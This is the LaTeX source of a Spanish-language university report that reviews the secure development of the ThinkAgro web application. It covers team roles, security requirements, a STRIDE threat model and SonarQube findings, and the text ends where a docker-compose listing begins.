\documentclass[11pt]{utalcaDoc}
\usepackage{alltt}
\usepackage{underscore}
\usepackage[utf8]{inputenc}
\usepackage[activeacute,spanish]{babel}
\usepackage{verbatim}
\usepackage[pdftex]{graphicx}
\usepackage{ae}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{pdflscape}
\usepackage{inconsolata}
\usepackage{url}
\usepackage{hyperref}
\usepackage{listings}
% \usepackage{placeins}
\usepackage[section]{placeins}
\usepackage[stable]{footmisc}
\usepackage{minted}
\usepackage{multicol}

\usepackage{csquotes}
\title{{\bf Seguridad Informática}\\ Proyecto 2}
\author{Erik Regla\\ eregla09@alumnos.utalca.cl}
\date{\today}

\begin{document}
\maketitle
\newpage
\tableofcontents
\newpage

\section{Resumen Ejecutivo}
Se presenta un analisis del proceso de desarrollo de la versión inicial de la aplicación ThinkAgro, desarrollada durante el año 2018, por medio de S-SDLC. Se mostrarán aspectos de diseño, implementación y testing en la medida que la base de código lo permita, junto con recomendaciones para casos con similar contexto. Adicionalmente mostramos una mirada desde el punto de vista del manejo del proceso de desarrollo junto con la técnica.
\section{Análisis}

La aplicación a analizar será la versión beta de lo que ahora se conoce como ThinkAgro. Esta aplicación fue desarrollada durante el año 2018 como parte de las actividades del módulo "Taller de desarrollo de software".

\subsection{Contexto}

Durante esa instancia, la profesora del módulo (Carolina Flores), además del manejo del curso estaba jugando un rol activo durante el desarrollo de la plataforma ThinkAgro para Kipus (organización de la universidad). Debido a esto, hubo una imposición de desarrollar el software para dicha plataforma, sin embargo la metodología de desarrollo estaba a completa discresión del curso.

Durante las sesiones iniciales del módulo, la deliberación de sus participantes fue utilizar una metodología ágil basada en scrum. Para la implementación de esto y en pos de una simulación mas filedigna de un equipo de desarrollo en el mundo real, el equipo fue dispuesto de la siguiente manera:

\begin{itemize}
    \item Un Product Owner, encargado de ser la cara de frente al cliente. Su trabajo principal es ser el puente de conexión entre el cliente y el resto del equipo técnico. Las historias de usuario son generados a este nivel.
    \item Un Technical Lead (yo), encargado del liderazgo técnico de los equipos. Como tal el líder técnico no se involucra directamente en el desarrollo excepto en piezas críticas, presentando un enfoque más a la coordinación del equipo, aterrizaje de los requerimientos traidos por el product owner, coordinar entrega de artefactos y articulaciones de la metodología y de ser necesario, entregar apoyo a los equipos de desarrollo. Adicionalmente todos los trabajos de investigación quedan a este nivel de modo de que no exista fricción entre el desarrollador y la tecnología a usar.
    \item Un DevOps, cuyo rol es coordinar los despliegues de la aplicación, mantener la salud de los repositorios y mantener consistencia entre los cambios empujados constantemente por los equipos de desarrollo.
    \item 3 equipos de desarrollos consistentes de 4 personas cada uno con un líder de equipo. El líder de equipo es el punto de conexión hacia el resto de las personas, y la transformación de las historias de usuario en requisitos funcionales es ejecutada a este nivel. Esto es, porque cada equipo se concentra en funcionalidades diferentes durante cada sprint.
    \item Un equipo de diseño consistente de dos personas.
\end{itemize}

Debido a que mi participación dentro del equipo fue líder técnico, este informe condensará mi visión respecto al proceso desde los elementos que me tocó manipular y/o controlar. También cabe aclarar que estuve encargado de la organización general de los equipos de trabajo, por lo que durante el desarrollo de este informe habrán comentarios al respecto.

\subsection{Propósito general de la aplicación}
La idea de la aplicación era modelar un proceso llevado a cabo por Kipus en el cual se tomaba la información proviniente de una entidad evaluadora y transformarlo en un flujo digital de información. Ahora, esto en la práctica significaba tomar una cantidad no menor de planillas, encuestas, gráficos y resultados y modelar su estructura para luego materializarla en forma de mantenedores, visualizadores y sistemas de autenticación y autorización para los usuarios finales. Adicionalmente, si bien la existencia de la plataforma y sus módulos es algo de conocimiento público, el contenido de la base de datos no tiene que serlo ya que contiene evaluaciones de cada una de las entidades participantes junto con información sensible a estos.

Los usuarios de esta plataforma durante el desarrollo de esta fueron acotados en dos categorías principalmente:

\begin{itemize}
    \item Evaluadores, quienes son los principales encargados de ingresar información por medio de formularios.
    \item Administradores, los cuales administran todos los aspectos de la aplicación.
    \item Gerentes, quienes revisan los resultados ingresados constantemente.
\end{itemize}

Los módulos trabajados durante el desarrollo del proyecto fueron los siguientes:

\begin{itemize}
    \item Reporting
    \item Mantenedores
    \item Usuarios y autenticación
    \item Integración externa
\end{itemize}

\subsection{Requerimientos de seguridad de la aplicación}

A continuación listaremos los requisitos de seguridad considerados para esta aplicación. 

\subsubsection{Consideraciones generales}
\begin{enumerate}
    \item Solo los usuarios registrados pueden ingresar a la aplicación o revisar detalles de esta.
    \item Todas las contraseñas deben estar cifradas.
    \item La base de datos no puede estar disponible hacia el exterior, esta solo debe ser visible para la aplicación.
\end{enumerate}

\subsubsection{Consideraciones de Usuarios}
\begin{enumerate}
    \item Los usuarios evaluadores solo pueden ingresar datos nuevos en las planillas.
    \item Los evaluadores no pueden ejecutar cambios sobre las métricas directamente.
    \item Los gerentes solo pueden leer datos de la plataforma en forma de indicadores, no pudiendo ejecutar cambios sobre esta pero si pueden editar los indicadores y generar reportes.
    \item Un administrador no puede acceder a la información cifrada de otro usuario (como por ejemplo una contraseña).
    \item Solo un administrador puede cambiar las métricas o las estructuras de las evaluaciones.
\end{enumerate}

\subsection{Nota del tech lead}

Estos fueron los requisitos declarados previamente dada las primeras reuniones con el cliente al momento de iniciar el desarrollo y estos requisitos quedaron escritos de manera inamovible durante todo el proyecto. Sin embargo, esto tiene un motivo: Nadie del equipo tenía experiencia real desarrollando aplicaciones.

La decisión de ser tech lead la verdad fue algo que hice a regañadientes, ya que si bien me gusta explorar esas áreas, no considero tener lo que se requiere para ejecutar dicho cargo. Sin embargo, acá el desafío venía por tres aristas.

El primero es cómo lograr que todos los integrantes del equipo logren trabajar de manera uniforme. Esto, que puede ser un aspecto poco regulado o poco importante para muchos desde la seguridad informática, es extemadamente vital. Mientras mas roces tiene un equipo con otro, más complicada la integración se vuelve. 

Por otro lado, si existe demasiada fricción entre los desarrolladores y la tecnología a ocupar, esto puede llevar a un mal uso, por tanto a vulnerabilidades. Siendo que esta sería una aplicación que sería utilizada desde fuera, no era un riesgo aceptable. 

El segundo desafío era la diferencia entre niveles. Si bien nadie tenía experiencia con aplicaciones reales de larga escala, existía una brecha técnica bastante grande. Esto es un problema en equipos ágiles ya que para su correcto funcionamiento necesitas que todos los miembros tengan un nivel similar.

Finalmente el último desafío era como lograr el desarrollo de un software en un ambiente relativamente seguro. Debido a esto fue necesaria la creación de un rol de DevOps para poder coordinar estos efectos, con una persona ciento por ciento dedicada a este trabajo a la cual le daba asistencia directa de ser necesario. De hecho este era el único rol por el cual me tenía permitido abandonar mis funciones para ir a suplir, ya que al ser solo una persona, el integrar la base de código es crítica.

De igual manera, este rol compartido tiene la responsabilidad de mantener la infraestructura, abstrayendo a los desarrolladores de la necesidad de trabajar con infraestructura remota. Esto fue crucial durante la elección del stack tecnológico y tuvo un impacto directo por sobre las capacitaciones que fueron necesarias al equipo antes de comenzar.

Esto, terminó dejando requisitos de seguridad implícitos, desde el punto de vista de las prácticas de desarrollo, como también generó durante el tiempo consideraciones de implementación las cuales me tocó ir adaptando a estos requerimientos.

Los detalles sobre el enfoque en las herramientas, prácticas y el equipo de trabajo se verá en la sección de desarrollo y de despliegue.
\section{Diseño}

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/diagram.png}
	\caption{ Diagrama de modelo de riesgos generado por OWASP Dragon }
\end{figure}

Para el modelado de los riesgos utilizamos OPWASP Dragon debido a su facil integracion con las herramientas existentes y para poder dejar registro en el fork del repositorio original.

\subsection{Objetivos de seguridad}
Debido al contexto en el cual fue desarrollado este proyecto se asumieron los siguientes factores respecto del desarrollo:

\begin{itemize}
    \item El proyecto tendría continuidad por una tercera parte.
    \item Sus desarrolladores no tienen el nivel suficiente de madurez para desarrollar de manera segura.
\end{itemize}

Debido a esto, la mayor parte de los aspectos de seguridad son tratados durante la etapa de desarrollo por medio de prácticas estándarizadas de desarrollo, el uso correcto de herramientas y frameworks y un proceso auditable. 

En este marco de trabajo nuestro objetivo de seguridad se vuelve asegurar el acceso y disponibilidad del servicio y sus componentes a un mínimo aceptable para que una tercera parte pueda continuar el desarrollo sin mayores problemas.

\subsection{Activos y dependencias externas}

Los activos de información encontrados en esta aplicación si bien solo son de una única categoría pueden ser divididos de la siguiente forma:

\begin{itemize}
    \item{ Esquemas de almacenaje, que definen el como se estructura un elemento de evaluación. Estos pueden ser esquemas de:
        \begin{itemize}
            \item Preguntas de selección multiple
            \item Campos de Texto
            \item Resultados de encuestas
            \item Selectores
        \end{itemize}
    }
    \item{ Esquemas de presentación, que definen el como se estructura un elemento de presentación. Estos pueden ser esquemas de:
        \begin{itemize}
            \item Preguntas de selección multiple
            \item Campos de Texto
            \item Resultados de encuestas
            \item Selectores
            \item Metricas
            \item Indicadores
        \end{itemize}
    }
    \item{ Esquemas de cálculo, que definen el como se estructura el cálculo de un indicador o una métrica.}
    \item { Base de datos de usuarios }
\end{itemize}

Por otro lado, tenemos una dependencia externa implícita y otra explícita. De manera implícita, hay información que es depositada y consumida hacia bases de datos estructuradas como google docs, mientras que por otro lado tenemos una dependencia explícita de las estructuras entregadas a través de los documentos físicos a los desarrolladores para realizar el poblado inicial de la base de datos.

\subsection{Zonas de confianza}

Debido a las descisiones de implementación (que serán revisadas mas adelante) contamos con seis zonas de confianza bien definidas.

\begin{itemize}
    \item Base de datos
    \item Proceso para tareas de segundo plano
    \item Browser
    \item Aplicación web
    \item Api Google
    \item Red docker
\end{itemize}

De estas, la red de docker es quizás la única que no es obvia de observar en el diagrama. La razón es porque la infraestructura al ser montada sobre contenedores de docker tanto su aplicación principal, el servidor estático como la base de datos, permite establecer un control total de las comunicaciones ejecutadas como también de los permisos entregados a esta.

Adicionalmente por la naturaleza stateless de la aplicación, en si la red docker entrega una zona de confianza en un anillo mas bajo que el espacio de usuario, sin embargo, este espacio está reservado y sin acceso desde alguna parte de la aplicación. Debido a esto es que también el ambiente de docker se considera como un ambiente fuera del alcance.

Por otro lado, tenemos tareas de segundo plano que son ejecutadas dentro el mismo ambiente pero bajo una api diferente. Estas pertenecen a una API provista por un equipo externo al de desarrollo la cual fue impuesta como requisito para realizar labores de autenticación.

\subsection{Amenazas, vulnerabilidades y mitigaciones}

A continuación mencionaremos brevemente las amenazas, vulnerabilidades y mitigaciones que pueden ser identificadas al contrastar este modelo con el resto del desarrollo. Para esto, utilizamos el modelo STRIDE por la simpleza para este caso. Solo se considerarán riesgos que pueden ser de interés para este informe.

\subsubsection{Navegador - Actor Externo}
Intervención por 3ras personas
\begin{itemize}
    \item \textbf{Amenaza: } Tampering, revelación de información
    \item \textbf{Estado: } Abierto
    \item \textbf{Severidad: } Media
    \item \textbf{Descripción: } A nivel de navegador, este puede ser intervenido por medio de plugins de terceros para alterar el funcionamiento del frontend.
    \item \textbf{Mitigación: } Educar al usuario. No es mucho lo que se puede hacer desde el púnto de vista técnico para una aplicación que es ejecutada del lado del cliente.
\end{itemize}

\subsubsection{Aplicación Web - Proceso}
Auto-Tampering
\begin{itemize}
    \item \textbf{Amenaza: } Tampering
    \item \textbf{Estado: } Mitigado
    \item \textbf{Severidad: } Media
    \item \textbf{Descripción: } Malas prácticas de programación pueden alterar la integridad de los procesos o la información
    \item \textbf{Mitigación: } Verificación constante de prácticas de programación, implementación de code reviews constantes.
\end{itemize}

Repudio
\begin{itemize}
    \item \textbf{Amenaza: } Repudio
    \item \textbf{Estado: } Mitigado
    \item \textbf{Severidad: } Alta
    \item \textbf{Descripción: } Problemas genéricos de repudio de información
    \item \textbf{Mitigación: } Verificación de operaciones criticas como transacciones.
\end{itemize}


Elevación de privilegio
\begin{itemize}
    \item \textbf{Amenaza: } Elevación de privilegio
    \item \textbf{Estado: } Mitigado
    \item \textbf{Severidad: } Alta
    \item \textbf{Descripción: } Problemas genéricos de escalamiento de permisos
    \item \textbf{Mitigación: } Limitar permisos de ejecución y limpieza de entradas.
\end{itemize}


\subsubsection{Petición web - Flujo de datos}
Denegación de servicio
\begin{itemize}
    \item \textbf{Amenaza: } Denegación de servicio
    \item \textbf{Estado: } Mitigado
    \item \textbf{Severidad: } Media
    \item \textbf{Descripción: } Denegación de servicio generico por sobrecarga de requests
    \item \textbf{Mitigación: } Autoescalado
\end{itemize}

Ataque lateral
\begin{itemize}
    \item \textbf{Amenaza: } Tampering
    \item \textbf{Estado: } Abierto
    \item \textbf{Severidad: } Media
    \item \textbf{Descripción: } Zero-days
\end{itemize}


\subsubsection{Cola de tareas- Proceso}
Colisión de tareas
\begin{itemize}
    \item \textbf{Amenaza: } Tampering
    \item \textbf{Estado: } Abierto
    \item \textbf{Severidad: } Media
    \item \textbf{Descripción: } Tareas enconladas en estado huérfano
\end{itemize}

Errores no propagados
\begin{itemize}
    \item \textbf{Amenaza: } Repudio
    \item \textbf{Estado: } Abierto
    \item \textbf{Severidad: } Media
    \item \textbf{Descripción: } Al ocurrir un error en un proceso de segundo plano, este no es informado a la aplicación web
\end{itemize}

Denegación de servicio
\begin{itemize}
    \item \textbf{Amenaza: } Denegación de servicio
    \item \textbf{Estado: } Mitigado
    \item \textbf{Severidad: } Media
    \item \textbf{Descripción: } Denegación de servicio generico por sobrecarga de requests
    \item \textbf{Mitigación: } Limitación de recursos y tareas concurrentes
\end{itemize}

Elevación de privilegio
\begin{itemize}
    \item \textbf{Amenaza: } Elevación de privilegio
    \item \textbf{Estado: } Mitigado
    \item \textbf{Severidad: } Alta
    \item \textbf{Descripción: } Problemas genéricos de escalamiento de permisos
    \item \textbf{Mitigación: } Limitar permisos de ejecución y limpieza de entradas.
\end{itemize}


\subsubsection{API de request google- Flujo de datos}
Fuga de información
\begin{itemize}
    \item \textbf{Amenaza: } Fuga de datos
    \item \textbf{Estado: } Mitigado
    \item \textbf{Severidad: } Alta
    \item \textbf{Descripción: } Un ataque MitM puede ocasionar una fuga de información
    \item \textbf{Mitigación: } Trafico debe estar establecido por SSL sobre certificados verificados previamente intercambiados.
\end{itemize}

Denegación de servicio
\begin{itemize}
    \item \textbf{Amenaza: } Denegación de servicio
    \item \textbf{Estado: } Abierto
    \item \textbf{Severidad: } Medio
    \item \textbf{Descripción: } Denegación de servicio causada por un abuso del plan gratuito
\end{itemize}


\subsubsection{API callback google- Flujo de datos}
Fuga de información
\begin{itemize}
    \item \textbf{Amenaza: } Fuga de datos
    \item \textbf{Estado: } Mitigado
    \item \textbf{Severidad: } Alta
    \item \textbf{Descripción: } Protocolos inseguros de transporte
    \item \textbf{Mitigación: } Forzar utilización de HTTPS/2
\end{itemize}

\subsubsection{Respuesta servicio web - Flujo de datos}
Fuga de información
\begin{itemize}
    \item \textbf{Amenaza: } Fuga de datos
    \item \textbf{Estado: } Mitigado
    \item \textbf{Severidad: } Alta
    \item \textbf{Descripción: } Protocolos inseguros de transporte
    \item \textbf{Mitigación: } Forzar utilización de HTTPS/2
\end{itemize}


Explotación
\begin{itemize}
    \item \textbf{Amenaza: } Elevación de privilegio, Fuga de información, Tampering
    \item \textbf{Estado: } Mitigado
    \item \textbf{Severidad: } Alta
    \item \textbf{Descripción: } Explotación por medio de ZeroDay
\end{itemize}


\subsubsection{Queries - Flujo de datos}
Fuga de información
\begin{itemize}
    \item \textbf{Amenaza: } Fuga de datos
    \item \textbf{Estado: } Mitigado
    \item \textbf{Severidad: } Alta
    \item \textbf{Descripción: } Inyecciones SQL
    \item \textbf{Mitigación: } Limpieza forzada de consultas
\end{itemize}


\subsection{Vista general de la aplicación}
\section{Desarrollo}

En esta sección vamos a ver en detalle un análisis del desarrollo del proyecto, desde un punto de vista técnico.

\subsection{Prácticas de desarrollo}

Como bien fue mencionado anteriormente, debido a la homogeneidad de los individuos involucrados en este desarrollo, las practicas para poder asegurar la robustez del software fueron abordadas desde el punto de vista de la planificación del proyecto. De esta manera, todas las tareas que involucran pasos críticos de comunicacion son desarrolladas principalmente por el techlead o bien por equipos de desarrollo bajo supervisión directa de este.

Adicionalmente, se tomaron consideraciones de desarrollo durante las etapas tempranas. Como por ejemplo, las prácticas de comunicación para poder reducir el nivel de ruido en la transmisión de información entre equipos. Una de las practicas mas fuertemente adoptadas fue que cada individuo, a excepción del techlead solo puede tener como máximo 5 enlaces de comunicación con otras personas del equipo. Esto es para reducir los niveles de carga cognitiva de cada miembro del equipo.

Adicionalmente, todo el ambiente de desarrollo está encapsulado. Debido a que a este nivel y en ese tiempo nadie tenía idea de como utilizar tecnologías de contenedores, este trabajo fue realizado por el techlead en conjunto con el devops, quien fue capacitado en etapas posteriores para poder realizar los despliegues, mantener las prácticas y otras funciones propias del cargo. La decisión de utilizar contenedores fue para reducir al minimo las fricciones de implementación y despliegue, como también los riesgos de seguridad asociados a la infraestructura.

Por otro lado, la elección del stack tecnológico tampoco fue tomada al azar. La utilización de C\# en conjunto con Angular 5 por medio de un proyecto integrado MVC obedece a dos consideraciones. 

La primera, es que ninguna persona tenia experiencia trabajando con ambientes de prueba y que además que para efectos de la aplicación, esta debería funcionar de manera fluida en ambientes restringidos. Esto es para evitar que los desarrolladores tuviesen una dependencia fuerte de los equipos provistos de la universidad.

También esta consideración implica que para los despliegues locales, se utilizen las herramientas directamente sobre el equipo de trabajo. Por tanto la aplicación NG5+C\# MVC, quedó fijada para ser utilizada por medio de .NET Core 2.0, el cual es una implementación de .NET que puede ser ejecutada en multiplataforma, con un uso mínimo de recursos y presenta soporte para bases de datos integradas como archivos, sin mayores requerimientos.

Esto generó las condiciones ideales para que los desarrolladores pudiesen trabajar con fricción mínima.

La segunda consideración obedece a la malla curricular, dado que todas las personas que estaban presentes solo tenían en común que en algún momento habían trabajado con C\# debido a un módulo de contrucción que fue dictado por un único profesor. Esto elimina la fricción de tener que conocer un nuevo lenguaje con un nuevo framework. Sin embargo, la utilización de Angular5 requirió una capacitación previa ya que las tecnologías para desarrollo de capas de presentación no son cubiertas durante los módulos de la carrera. Esta combinación para el stack tecnológico ofrece la mínima fricción para el desarrollador, mientras que favorece las condiciones de despliegue.

\subsection{Análisis estático}

Hemos utilizado SonarQube como herramienta de análisis estático debido a que es una herramienta que para proyectos de código abierto es gratuita, simple de utilizar y bastante eficiente al momento de presentar resultados. Una de las principales ventajas para proyectos de código abierto es la publicación de los resultados accesible a cualquier persona. \footnote{Es posible revisar este reporte en mas detalle en \url{https://sonarcloud.io/project/issues?id=KukyNekoi_core}}.


\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/sonarqube.png}
	\caption{Captura de SonarCloud  }
\end{figure}

Dentro de este análisis estático realizado, se notifican 2 vulnerabilidades en especifico y 4 elementos que requieren atención por implicar problemas de seguridad. Esta herramienta presenta entre otros features, la capacidad de discernir en base a input entregado por la comunidad, el cuando una alerta pertenece a un detalle de código o estilo, es clasificado como tal, lo cual reduce el número de falsos positivos.

\subsubsection{Vulnerabilidades y preocupaciones}

\textbf{Change this code to not construct the path from user-controlled data.} Esta vulnerabilidad fue encontrada en los archivos \texttt{Controllers/FilesController.cs}\footnote{\url{https://sonarcloud.io/project/issues?id=KukyNekoi_core&open=AXO9I4c6uw3EeNfURrkm&resolved=false&types=VULNERABILITY}} y \texttt{Controllers/LinkDocumentFactory.cs}.\footnote{\url{https://sonarcloud.io/project/issues?id=KukyNekoi_core&open=AXO9I4cTuw3EeNfURriv&resolved=false&types=VULNERABILITY}} Para el primero, son valores propagados dentro de la misma declaración del archivo. Sin embargo para el segundo caso, este es un sink de un evento que ocurre en \texttt{Controllers/LinkDocumentFactory.cs} y que es propagado por \texttt{Controllers/RegistriesController.cs}. El problema recae en que hay entradas de usuario que luego de ser propagadas, si estas son construidas de manera adecuada, pueden controlar rutas dentro de la aplicación. 

Para el caso de \texttt{Controllers/FilesController.cs}, este controla la ruta de lectura de un archivo, la cual, si estas no son restringidas pueden provocar una fuga de información. Por otro lado, para \texttt{Controllers/LinkDocumentFactory.cs} si bien el caso es el mismo, este afecta la creación de archivos.

Ambos pueden generar no solo una fuga de información, si no presentan un riesgo latente de inyección de código si no es manejado. Afortunadamente los permisos de ejecución de esos directorios están deshabilitados y los binarios residen en un espacio de usuario aislado del sistema de archivos subyacente. Esto no elimina la fuga de información por medio de la lectura de los archivos.

\textbf{Make sure that hashing data is safe here.} Encontrados en \texttt{Controllers/AuthorizationController.cs}\footnote{\url{https://sonarcloud.io/project/issues?id=KukyNekoi_core&open=AXO9I4dHuw3EeNfURrl2&resolved=false&types=SECURITY_HOTSPOT}}, \url{Models/FileDocumentFactory.cs}\footnote{\url{https://sonarcloud.io/project/issues?id=KukyNekoi_core&open=AXO9I4cguw3EeNfURrjE&resolved=false&types=SECURITY_HOTSPOT}} y \texttt{Models/LinkDocumentFactory.cs}\footnote{\url{https://sonarcloud.io/project/issues?id=KukyNekoi_core&open=AXO9I4cTuw3EeNfURriu&resolved=false&types=SECURITY_HOTSPOT}}, estos problemas hacen referencia a que se está utilizando un algoritmo para realizar el hashing el cual tiene al menos una manera de ser quebrantado. Esto vuelve este mecanismo de hashing inseguro.

Ahora, esto no está bajo la línea de una vulnerabilidad como tal, ya que un algoritmo de hashing puede tener distintos usos, no solamente el cifrado de información. Por ejemplo, la generación automatizada de llaves en base a una cadena de texto determinada, de modo de no colisionar elementos repetidos. Sin embargo, nuestra única consideración al respecto para ser utilizada es sobre la autenticación. Sin embargo, los mecanismos de autenticación no están bajo el control de los desarrolladores, habiendo sido impuestos por el equipo de trabajo detras del desarrollo a la api que se conecta uno de manera remota. Por tanto, no podemos hacer nada en estos casos mas allá de traspasar el riesgo.

\textbf{Make sure that using this pseudorandom number generator is safe here.} Este error se encuentra en \texttt{Controllers/SampleDataController.cs} \footnote{\url{https://sonarcloud.io/project/issues?id=KukyNekoi_core&open=AXO9I4c-uw3EeNfURrko&resolved=false&types=SECURITY_HOTSPOT}} y no tiene mayor relevancia ya que está presente solo en un archivo de prueba el cual no fue eliminado.
\section{Pruebas y despliegue}

En esta sección vamos a unificar las pruebas y despliegue debido a la naturaleza de la aplicación. El desarrollo de esta fue articulado para los ambientes de desarrollo y ambientes productivos como una aplicación cargada sobre la nube de amazon, en forma de contenedores docker. Esto permite la transparencia del servicio respecto de la infraestructura. Para efectos de el despliegue en producción, esta fue montada sobre un ambiente en ElasticBeanstalk, en modo contenedor, pasando por medio de un balanceador de carga de segunda generación.

Debido a esto, solo existe un punto de conexión de la aplicación hacia el exterior el cual es el puerto 443 para conexiones HTTPS. Por otro lado, para la version de producción se utilizó una base de datos AWS RDS MSSQL 2017, la cual tiene accesos restringidos por medio de grupos de seguridad.

Debido a esto, no es posible replicar directamente la arquitectura para nuestros efectos, sin embargo, podemos modelar las condiciones utilizando herramientas como docker-compose para levantar un ambiente local de pruebas.

Para estos efectos, podemos utilizar la siguiente especificación para poder implementar una réplica de la infraestructura:

\begin{minted}[linenos,tabsize=2,breaklines,fontsize=\scriptsize]{yaml}
    version: "3"
    services:
      database:
